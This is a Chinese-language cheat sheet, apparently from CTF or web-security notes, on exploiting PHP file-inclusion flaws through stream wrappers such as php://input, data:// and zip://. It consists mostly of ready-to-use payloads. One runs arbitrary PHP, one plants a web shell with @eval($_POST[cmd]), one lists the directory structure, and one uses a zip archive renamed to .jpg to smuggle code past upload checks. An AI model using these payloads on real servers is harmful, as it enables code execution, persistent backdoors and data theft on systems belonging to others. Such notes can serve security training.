 ```
```

执行任意代码 poc:

```
?file=php://input
post数据:
<?php phpinfo(); ?>
```

写入木马 poc:

```
?file=php://input
post数据:
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($\_POST\[cmd\])?>');?>
```

读取目录结构 poc:

```
?file=php://inputpost数据:
post数据:
<?php print\_r(scandir('/var/www/html'));?>
```

4.2. data://

4.2.1. poc

```
data://\[<MIME-type>\]\[;charset=<encoding>\]\[;base64\],<data>
?file=data://,<?php phpinfo();
?file=data://text//plain,<?php phpinfo();
?file=data://text/plain;base64,xxxxxxxxx
?file=data:text/plain,</php phpinfo();
?file=data:text/plain;base64,xxxxxxxxxx
```

4.2.2.file://,zip://,compress.zlib:// 和 bzip2://

4.3.1. 使用条件

0.  allow\_url\_fopen：off/on
    
1.  allow\_url\_include：off/on
    
2.  file:// 用于访问本地文件系统，在 CTF 中通常用来读取本地文件的且不受 allow\_url\_fopen 与 allow\_url\_include 的影响 (相同类型的还有 zip://,zlib:// 和 bzip2://)
    
3.  file:// 必须是绝对路径
    

4.3.2. poc

以 zip:// 为例

要用 #分隔压缩包和压缩包里的内容，并且 #要用 url 编码 %23

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23code.txt

先将要执行的 PHP 代码写好文件名为 code.txt，将 phpcode.txt 进行 zip 压缩, 压缩文件名为 file.zip, 如果可以上传 zip 文件便直接上传，若不能便将 file.zip 重命名为 file.jpg 后在上传，其他几种压缩格式也可以这样操作。
